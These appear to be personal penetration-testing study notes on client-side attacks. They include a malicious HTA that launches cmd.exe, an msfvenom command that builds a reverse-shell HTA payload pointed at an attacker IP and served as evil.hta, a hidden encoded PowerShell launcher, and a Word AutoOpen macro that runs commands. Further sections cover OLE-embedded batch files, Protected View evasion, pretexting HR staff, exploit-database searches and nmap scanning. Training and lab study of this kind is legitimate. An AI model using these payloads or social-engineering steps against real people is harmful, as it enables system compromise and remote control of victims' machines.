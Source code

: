 ```yaml
---
title: Study Notes - 2021/03/21
date: 2021-03-21 02:01:55
tags: [Penetration Testing, Study Notes]
---
```


# Client-side Attack 

## Passive Client information Gathering  
Googled for various known external corporate IP addresses and found one on a site that hosts collected user agent data from various affiliate sites.

## Active Client information Gathering  
## Social engineering and client-side attacks 
Cheat HR, by sending their a document, and ask what types of os and broseswer they are using 

## Client Fingerprinting  
fingerpringjs  

use ajax to post components array to the server  

sudo chown www-data:www-data fp  

## Leveraging HTML Applications 
If a file is created with the extension of .hta instead of .html, Internet Explorer will automatically nterpret it as a HTML Application and offer the ability to execute it using the mshta.exe program.

work with IE 

Similar to an HTML page, a typical HTML Application includes html, body, and script tags followed by JavaScript or VBScript code. However, since the HTML Application is executed outside the browser we are free to use legacy and dangerous features that are often blocked within the browser  

An additional window will open, add close 

``
<html>
<head>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
self.close();
</script>
</body>
</html>
``

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```
```
iKqr8BWFyuiK.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg
```

-nop no profile  
-w hidden do not pop up a window  
-EncodedCommand  -e  

# Microsoft macros

```
Sub AutoOpen()
MyMacro
End Sub
Sub Document_Open()
MyMacro
End Sub
Sub MyMacro()
CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

We must save the containing document as either .docm or the older .doc format, which supports
embedded macros, but must avoid the .docx format, which does not support them.


# Object Linking and Emedding
Insert batch object into a word file  
change the present, display as icon, change the icon   
Can also change caption  
user need to click on the icon to lanuch the batch file  

START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....  

# Evading Protected View  
block the execution of macro and embeded object  
bypass is to use another Office application.  


# Locating public exploits 
https://www.exploit-db.com  
  
https://www.securityfocus.com  
A vulnerability database instead of exploit database, reference may contain some PoC 

https://packetstormsecurity.com  
It provides up-to-date information on security news and vulnerabilities as well as recently published tools by security vendors

```
firefox --search "Microsoft Edge site:exploit-db.com"
```
inurl intext and intitle  

# Offline exploit resource  
SearchSploit  
```
sudo apt update && sudo apt install exploitdb
```
to make sure it is lateset  

/usr/share/exploitdb/exploits/  


# nmap NSE script 
kali@kali:~$ cd /usr/share/nmap/scripts  
kali@kali:/usr/share/nmap/scripts$ grep Exploits *.nse  
nmap --script-help=clamav-exec.nse  

# The Browser Exploitation Framework (BeEF)
# Metasploit Framework 


# Put all together 
```
sudo nmap 10.11.0.128 -p- -sV -vv --open --reason
```
  --open: Only show open (or possibly open) ports  
  --reason: Display the reason a port is in a particular state  


